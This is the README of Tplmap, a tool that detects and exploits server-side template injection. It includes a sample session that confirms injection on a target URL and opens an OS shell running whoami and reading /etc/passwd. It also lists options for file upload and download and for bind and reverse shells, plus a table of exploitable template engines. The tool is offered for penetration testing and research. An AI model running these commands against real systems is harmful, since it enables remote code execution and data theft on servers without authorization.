 Tplmap
======

Tplmap (short for _Template Mapper_) is a tool that automate the process of detecting and exploiting Server-Side Template Injection vulnerabilities (SSTI). This assists SSTI exploitation to compromise the application and achieve remote command execution on the operating system. 

The tool can be used by security researches and penetration testers, to detect and exploit vulnerabilities and study the template injection vulnerability class.

The plugin architecture makes easy to extend the tool and support new template engines and sandbox break-out techniques. Part of the implemented techniques came from public research papers as James Kett's [Server-Side Template Injection: RCE For The Modern Web App][1] and other [works][4] while others have been [discovered][2] to [extend][3] this tool exploitation capabilities.

Tplmap is able to detect and achieve arbitrary command execution in several scenarios as injections in code context and blind injections.

Example
-------

```
$ ./tplmap.py -u 'http://www.target.com/app?id=7'
[+] Tplmap 0.1
    Automatic Server-Side Template Injection Detection and Exploitation Tool

[+] Testing if GET parameter 'id' is injectable
[+] Smarty plugin is testing rendering with tag '{*}'
[+] Smarty plugin is testing blind injection
[+] Mako plugin is testing rendering with tag '${*}'
...
[+] Jade plugin is testing rendering with tag '\n= *\n'
[+] Jade plugin has confirmed injection with tag '\n= *\n'
[+] Tplmap identified the following injection point:

  GET parameter: id
  Engine: Jade
  Injection: \n= *\n
  Context: text
  OS: darwin
  Technique: render
  Capabilities:

   Code evaluation: yes, javascript code
   Shell command execution: yes
   File write: yes
   File read: yes
   Bind and reverse shell: yes

[+] Rerun tplmap providing one of the following options:

    --os-shell or --os-cmd to execute shell commands via the injection
    --upload LOCAL REMOTE to upload files to the server
    --download REMOTE LOCAL to download remote files
    --bind-shell PORT to bind a shell on a port and connect to it
    --reverse-shell HOST PORT to run a shell back to the attacker's HOST PORT
          
$ ./tplmap.py -u 'http://www.target.com/app?id=7' --os-shell
[+] Run commands on the operating system.

linux $ whoami
www-data
linux $ ls -al /etc/passwd
-rw-r--r--  1 root  wheel  5925 16 Sep  2015 /etc/passwd
linux $

```

Supported template engines
--------------------------

| Template engine      | Techniques         | Command execution | Code evaluation | File read | File write |
|----------------------|--------------------|-------------------|-----------------|-----------|------------|
| Mako                 |  render/blind      | yes               | Python          | yes       | yes        |
| Jinja2               |  render/blind      | yes               | Python          | yes       | yes        |
| Nunjucks             |  render/blind      | yes               | JavaScript      | yes       | yes        |
| Jade                 |  render/blind      | yes               | JavaScript      | yes       | yes        |
| JavaScript (generic) |  render/blind      | yes               | JavaScript      | yes       | yes        |
| Dust (<= dustjs-helpers@1.5.0) |  render/blind      | yes               | JavaScript      | yes       | yes        |
| Smarty (unsecured)   |  render/blind      | yes               | PHP             | yes       | yes        |
| Freemarker           |  render/blind      | yes               | no              | yes       | yes        |
| Velocity             |  render/blind      | yes               | no              | yes       | yes        |
| Twig                 |  render            | no                | no              | no        | no         |
| Smarty (secured)     |  render            | no                | no              | no        | no         |
| Dust (> dustjs-helpers@1.5.0)  |  render            | no                | no              | no        | no         |

[1]: http://blog.portswigger.net/2015/08/server-side-template-injection.html
[2]: https://github.com/epinna/tplmap/issues/9
[3]: http://disse.cting.org/2016/08/02/2016-08-02-sandbox-break-out-nunjucks-template-engine
[4]: https://artsploit.blogspot.co.uk/2016/08/pprce2.html
